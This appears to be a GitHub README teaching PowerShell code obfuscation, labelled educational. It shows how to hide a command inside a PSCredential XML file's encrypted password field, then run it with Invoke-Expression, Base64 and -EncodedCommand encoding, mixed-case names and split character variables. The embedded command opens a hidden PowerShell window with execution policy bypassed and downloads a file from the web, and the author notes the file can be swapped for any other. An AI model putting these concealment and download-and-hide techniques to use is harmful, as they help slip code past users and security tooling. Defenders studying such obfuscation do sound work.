

# PowerShell Code Obfuscation
Note: This repository is for educational purposes only. I do not condone abusing using code obfuscation to trick/mislead unsuspecting users.

## Examples
Here are some examples on how you can run obfuscated PowerShell code.

### Using PSCredential Objects
You can get store a PSCredential object to an XML-File using the following lines:
```powershell
Get-Credential | Export-CliXml -Path ".\CreDentIals.xMl"
```

If you run this code you will get either get a UI prompt (PowerShell 5.1) or a terminal prompt (PowerShell 7) to enter user credentials. Here is a screenshot of the UI prompt:


In this prompt you can enter PowerShell code into the password field. We will add the following code for our example:
```powershell
Start-Process "powershell" -ArgumentList '-ExecutionPolicy Bypass -NoProfile -WindowStyle hidden Invoke-WebRequest "https://raw.githubusercontent.com/menaruben/TomlForge/main/src/Toml.psm1" -OutFile ".\my_file.ps1"'
```
This will bypass the current execution policy and have execute the code in a hidden window. It will download the Toml.psm1 file (you can change switch that to any other file) and store it to the my_file.ps1 file. If we enter this as the password the content of the credential file should look like this:
```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">my_user</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb010000008b4f541199ee974cacd62abeca4afa00000000000200000000001066000000010000200000000af39ece261db6266a8795094f02e80489783c5ab771ae00d392bf7f39289d6c000000000e8000000002000020000000c5db9779e0ae552e5d778dcba79f30b5dafc31f9d225e9136bfe28f0cc69cfb6900100003feb3302a71f919d151f52709646f0be6c0ee4c88a08d35a0d7ee335ed76aae2f06bde8bbae411df90a467df81420f5aca5f55bf673fc3b919f44f1d1e3457d2d29756f9d1ef62cff24e0cffc247c6d1a4526ea2a7459b3cab441cdba55322557af20ed18b094f6774630e147bb1a1c5bc4266fe572cea7f4138c94309fbbf59fc2349459b17e659fdd1e75d44aaaa603896c426f54848520a0c4c52b590a06b352655290514fc80f481a5502169d0c8ce37f26029d8651dea7d8d5080dcad8dfc1f11cd6a3196b02f0bb91f4d8fa892f2a2012a28f117d3cf588315f27e8f5bcb575a4aae9f1de61eba7feddd1376452545774ce44a6ddaa5263f05075cd617edafa1b9d8ce4107037a7d14ad5c925a95332daf212ed2ce137f30dc9df434f07337821b6f8873ab5f876a14dc1b6b3b1acffc02c7940444ba912780b02e0ca1507ba527c3272d20de433d4c1f900e67ea31f283939e7a516df4b87eee1c840c9da3b06d29fe70001f0948ab4a631b64843823e959bf42975780c8fa8966d03ea8ac94f5be9a7002b2c6c573e688d50a4000000097443e070bfe33745e6fffa8ced71a302aa7a874da5f359b8b40ea30186d9de236e876947c871c60092cd6ef502beac37a116c75b8782ae6f20a1a7f3ac397de</SS>
    </Props>
  </Obj>
</Objs>
```
As you can see, the code got encrypted as a SecureString. We could now execute the encrypted code with the following lines of code:
```powershell
iNvoke-eXpression $([sYsTem.rUNtIME.iNtERopSeRvIcEs.MaRshAl]::PtRtOsTRiNGauTo([syStEM.rUntiME.iNteRopSERvIces.MaRshAl]::SECUREstrinGtObSTR($(IMpORt-CliXml -Path ".\CreDeNTIAls.xMl").PaSSword)))
```

We have purposely added "spongebob case" to make the code less readable already. This comes in handy when encoding the code above to [Base64](https://de.wikipedia.org/wiki/Base64) because System, SYSTEM, system and SysTeM are all going to get encoded differently. Making it harder to read the code when decoding it back from Base64. We can encode this code using the following method:
```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('iNvoke-eXpression $([sYsTem.rUNtIME.iNtERopSeRvIcEs.MaRshAl]::PtRtOsTRiNGauTo([syStEM.rUntiME.iNteRopSERvIces.MaRshAl]::SECUREstrinGtObSTR($(IMpORt-CliXml -Path ".\CreDeNTIAls.xMl").PaSSword)))'))
```
We can now work with the encoded code in different ways. 

#### Method 1: Split into variables, decode, run
We can now copy the output of this to our clipboard to start working with the encoded code. To run the Base64 code we would have to convert it back to a string. We are now running and decoding it in the same line:
```powershell
Invoke-Expression $([SysTeM.TeXT.EnCOdIng]::UnIcOdE.gEtStRiNg([SysTeM.COnvErT]::FRoMbaSE64StrINg("aQBOAHYAbwBrAGUALQBlAFgAcAByAGUAcwBzAGkAbwBuACAAJAAoAFsAcwBZAHMAVABlAG0ALgByAFUATgB0AEkATQBFAC4AaQBOAHQARQBSAG8AcABTAGUAUgB2AEkAYwBFAHMALgBNAGEAUgBzAGgAQQBsAF0AOgA6AFAAdABSAHQATwBzAFQAUgBpAE4ARwBhAHUAVABvACgAWwBzAHkAUwB0AEUATQAuAHIAVQBuAHQAaQBNAEUALgBpAE4AdABlAFIAbwBwAFMARQBSAHYASQBjAGUAcwAuAE0AYQBSAHMAaABBAGwAXQA6ADoAUwBFAEMAVQBSAEUAcwB0AHIAaQBuAEcAdABPAGIAUwBUAFIAKAAkACgASQBNAHAATwBSAHQALQBDAGwAaQBYAG0AbAAgAC0AUABhAHQAaAAgACIALgBcAEMAcgBlAEQAZQBOAFQASQBBAGwAcwAuAHgATQBsACIAKQAuAFAAYQBTAFMAdwBvAHIAZAApACkAKQA=")))
```

This code is pretty easy to read though. In order to make it less readable we could store each character of the ```Invoke-Expression``` statement into variables with random names. This would make the whole command look like this:
```powershell
$f='p';$q='N';$h='n';$c='r';$r='-';$m='k';$t='o';$b='s';$n='o';$p='x';$g='i';$s='E';$l='v';$d='I';$FIKUbfiuwef=$g+$q+$l+$t+$m+$s+$r+$s+$p+$f+$c+$s+$b+$b+$d+$n+$h;&$FIKUbfiuwef $([SYsTEM.tEXt.enCODing]::UnIcOdE.GeTstRiNG([sYsTEm.coNVeRt]::FrOMbAse64StRINg('aQBOAHYAbwBrAGUALQBlAFgAcAByAGUAcwBzAGkAbwBuACAAJAAoAFsAcwBZAHMAVABlAG0ALgByAFUATgB0AEkATQBFAC4AaQBOAHQARQBSAG8AcABTAGUAUgB2AEkAYwBFAHMALgBNAGEAUgBzAGgAQQBsAF0AOgA6AFAAdABSAHQATwBzAFQAUgBpAE4ARwBhAHUAVABvACgAWwBzAHkAUwB0AEUATQAuAHIAVQBuAHQAaQBNAEUALgBpAE4AdABlAFIAbwBwAFMARQBSAHYASQBjAGUAcwAuAE0AYQBSAHMAaABBAGwAXQA6ADoAUwBFAEMAVQBSAEUAcwB0AHIAaQBuAEcAdABPAGIAUwBUAFIAKAAkACgASQBNAHAATwBSAHQALQBDAGwAaQBYAG0AbAAgAC0AUABhAHQAaAAgACIALgBcAEMAcgBlAEQAZQBOAFQASQBBAGwAcwAuAHgATQBsACIAKQAuAFAAYQBTAFMAdwBvAHIAZAApACkAKQA=')))
```

#### Method 2: PowerShell's EncodedCommand Parameter
PowerShell has a ```-EncodedCommand``` parameter which is pretty interesting. We can use this to our advantage in order to run code our code like this:
```powershell
powershell.exe -EncodedCommand 'aQBOAHYAbwBrAGUALQBlAFgAcAByAGUAcwBzAGkAbwBuACAAJAAoAFsAcwBZAHMAVABlAG0ALgByAFUATgB0AEkATQBFAC4AaQBOAHQARQBSAG8AcABTAGUAUgB2AEkAYwBFAHMALgBNAGEAUgBzAGgAQQBsAF0AOgA6AFAAdABSAHQATwBzAFQAUgBpAE4ARwBhAHUAVABvACgAWwBzAHkAUwB0AEUATQAuAHIAVQBuAHQAaQBNAEUALgBpAE4AdABlAFIAbwBwAFMARQBSAHYASQBjAGUAcwAuAE0AYQBSAHMAaABBAGwAXQA6ADoAUwBFAEMAVQBSAEUAcwB0AHIAaQBuAEcAdABPAGIAUwBUAFIAKAAkACgASQBNAHAATwBSAHQALQBDAGwAaQBYAG0AbAAgAC0AUABhAHQAaAAgACIALgBcAEMAcgBlAEQAZQBOAFQASQBBAGwAcwAuAHgATQBsACIAKQAuAFAAYQBTAFMAdwBvAHIAZAApACkAKQA='
```

This would be kind of obvious though so in order to avoid readability we could obfuscate this even further. We could split up the command into multiple character variables making it extremely unreadable. (example following in the next few days). 